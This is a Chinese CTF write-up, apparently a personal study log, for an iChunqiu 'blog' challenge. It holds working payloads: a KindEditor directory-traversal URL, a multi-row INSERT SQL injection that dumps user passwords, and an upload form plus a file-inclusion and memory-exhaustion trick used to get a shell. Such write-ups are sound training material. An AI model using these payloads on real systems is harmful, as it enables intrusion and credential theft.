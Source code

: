 # I春秋学习记录

## 前言

之前因为系统崩溃掉，然后没有备份，之前学习过程中的笔记和知识点就都没有了，到时候再补吧，现在接着刷题。先把套路摸清了，然后再开始审计代码.....多花时间学习python的使用。近期的目标就是这样，最关键的是要掌握一门语言。多练吧，不要太功利地去想有没有用，喜欢就学，不和别人比，看到别人比我强，心里怪不是滋味的，说实话，但是自己也在努力嘛，偶尔有些懈怠，但是还是要极力去挣扎，说实话，学习过程中扫兴的地方挺多的，然后还是要去拧巴自己，不然生活太无聊了。



## 百度杯十二月赛

### blog进阶版

这题考察内存溢出，目录穿越，文件读取，sql注入

![](/home/cookie/Pictures/blogs/1.png)



注册一个用户进入后，到post页面，这里用的kindeditor有一个目录穿越漏洞，因为是历史漏洞，所以我们直接用它的payload就好了

![](/home/cookie/Pictures/blogs/2.png)

payload如下：

```
url/kindeditor/php/file_manager_json.php?path=/
```



在`post.php`是有一个`sql注入`

利用的是`insert into tables values(a,b,c),(d,e,f)`的特性

分析过程参考：[传送门](https://www.cnblogs.com/Ragd0ll/p/8778562.html)

然后我们就可以进行`sql注入`，payload:

```
insert into xxx values('coco','coco','    coco','x'),('hacker',(select group_concat(password) from users),'hacker             ','x')

title = 'coco'
content = "coco','x'),('hacker',(select group_concat(password) from users),'hacker"
```



然后获得admin的密码是:19-10-1997

admin中有Manager的模块，这里有文件包含，我们让其进行`自包含`，由于自包含，它就会无限次的包含manager.php，导致内存溢出，并且如果我们通过manager.php上传一个文件的话，文件都会暂时存在tmp文件夹中，因为内存溢出导致，服务器将会清除内存中的指令，这样子，内存中的指令就会被删除，正常情况下，由于tmp是临时文件，这一次的请求结束后，tmp中的内容就会被删除，然而内存溢出，导致上传的文件无法删除，getshell.

payload

```php+HTML
//upload.html
<body>
<form name='uploadForm' method='POST'
    enctype = "multipart/form-data"
    action="http://957e830253cb490686a81068ecd8c192496b7dff59b8465c.changame.ichunqiu.com/blog_manage/manager.php?module=manager&name=php">
    upload File1:<input type="file" name="file1" size="30"/>     
    <input type="submit" name="submit" value="submit">
    <form>
</body> 
    
//show_source.php
<?php


   show_source("/var/www/html/flag.php");


?>
   
```

我们使用先前的目录穿越获取到tmp中文件的文件名

![](/home/cookie/Pictures/blogs/3.png)



然后使用文件包含漏洞，去包含我们的shell文件

![](/home/cookie/Pictures/blogs/4.png)